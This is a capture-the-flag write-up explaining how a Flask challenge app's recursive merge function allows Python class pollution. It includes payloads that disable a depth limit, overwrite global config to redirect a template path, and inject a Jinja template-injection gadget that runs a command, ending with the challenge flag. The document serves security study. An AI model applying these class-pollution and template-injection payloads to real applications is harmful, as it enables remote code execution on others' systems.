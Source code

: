 # Personal Website

## Description

I made a customizable website (TODO: add more options)

## Writeup


### Solution 1

The vulnerability lies in the following code:

```python
def merge_info(src, user, *, depth=0):
    if depth > 3:
        raise Exception("Reached maximum depth")
    for k, v in src.items():
        if hasattr(user, "__getitem__"):
            if user.get(k) and type(v) == dict:
                User.merge_info(v, user.get(k), depth=depth+1)
            else:
                user[k] = v
        elif hasattr(user, k) and type(v) == dict:
            User.merge_info(v, getattr(user, k), depth=depth+1)
        else:
            setattr(user, k, v)
```

Such recursive merges make it possible to perform Python [Class Pollution](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution.html).
This attack allows you, for example, to change class metadata:

```python
obj.__class__.__qualname__ = "foobar"
```

or to modify global variables:

```python
obj.__class__.__init__.__globals__["GLOBAL_VAR"] = "bizbaz"
```

However, because of the recursion depth limit, the attack is quite restricted. To bypass this, you can overwrite the default value of the depth parameter:

```python
user.__class__.merge_info.__kwdefaults__["depth"] = -9999
```

This effectively disables the depth restriction.

At this point, you can freely modify global variables. In `app.py`, the global variables can be accessed like this:

```python
user.__class__.__init__.__globals__["generate_password_hash"].__globals__["os"].sys.modules["app"].CONFIG_TEMPLATE
```

This makes it possible to overwrite the template path. We cannot reference files outside `/app` directory. Fortunately, inside the `/app` directory, a `flask.log` log file is generated. If you can inject a Flask SSTI payload into this file, you can achieve RCE.

By setting the template path to an SSTI payload, you can trigger an error such as:

```
jinja2.exceptions.TemplateNotFound: {{[].__class__.__class__.__subclasses__([].__class__.__class__)[0].register.__builtins__['__import__']('os').popen('/readflag').read()}}
```

which can then be leveraged for code execution.

### Solution 2

The depth restriction bypass is the same as in Solution 1. Given that Class Pollution is possible, [Jinja provides gadgets that lead directly to arbitrary code execution](https://www.offensiveweb.com/docs/programming/python/class-pollution/#rce). Therefore, the challenge can also be solved simply by reusing such gadgets.

## Flag

`fwectf{__m3R6e_H4_MAj1_Kik3N__<dynamic>}`
